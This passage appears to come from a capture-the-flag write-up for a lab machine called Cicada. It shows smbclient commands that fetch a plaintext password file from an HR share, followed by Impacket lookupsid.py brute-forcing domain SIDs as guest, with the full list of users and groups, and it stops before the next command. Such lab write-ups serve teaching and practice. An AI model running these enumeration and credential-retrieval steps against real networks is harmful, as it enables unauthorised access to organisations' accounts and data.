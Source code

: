 Our next step is to use ```smbclient``` to connect to the HR shares, list the contents, and retrieve a plaintext password from the file named ```Notice from HR.txt```.

```
smbclient //10.10.11.35/HR
dir
get "Notice from HR.txt"
```

However, at this point we still don't have any valid usernames to pair with it. One approach to resolve this issue is to use the ```lookupsid.py``` tool to identify potential usernames:

```
python3 lookupsid.py guest@10.10.11.35 -no-pass             
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.10.11.35
[*] StringBinding ncacn_np:10.10.11.35[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-917908876-1423158569-3159038727
^[[B^[[B^[[B498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: CICADA\Administrator (SidTypeUser)
501: CICADA\Guest (SidTypeUser)
502: CICADA\krbtgt (SidTypeUser)
512: CICADA\Domain Admins (SidTypeGroup)
513: CICADA\Domain Users (SidTypeGroup)
514: CICADA\Domain Guests (SidTypeGroup)
515: CICADA\Domain Computers (SidTypeGroup)
516: CICADA\Domain Controllers (SidTypeGroup)
517: CICADA\Cert Publishers (SidTypeAlias)
518: CICADA\Schema Admins (SidTypeGroup)
519: CICADA\Enterprise Admins (SidTypeGroup)
520: CICADA\Group Policy Creator Owners (SidTypeGroup)
521: CICADA\Read-only Domain Controllers (SidTypeGroup)
522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
525: CICADA\Protected Users (SidTypeGroup)
526: CICADA\Key Admins (SidTypeGroup)
527: CICADA\Enterprise Key Admins (SidTypeGroup)
553: CICADA\RAS and IAS Servers (SidTypeAlias)
571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
1000: CICADA\CICADA-DC$ (SidTypeUser)
1101: CICADA\DnsAdmins (SidTypeAlias)
1102: CICADA\DnsUpdateProxy (SidTypeGroup)
1103: CICADA\Groups (SidTypeGroup)
1104: CICADA\john.smoulder (SidTypeUser)
1105: CICADA\sarah.dantelia (SidTypeUser)
1106: CICADA\michael.wrightson (SidTypeUser)
1108: CICADA\david.orelious (SidTypeUser)
1109: CICADA\Dev Support (SidTypeGroup)
1601: CICADA\emily.oscars (SidTypeUser)
```

Next, we could save this output to a file ```usernames.txt``` and use the following command:
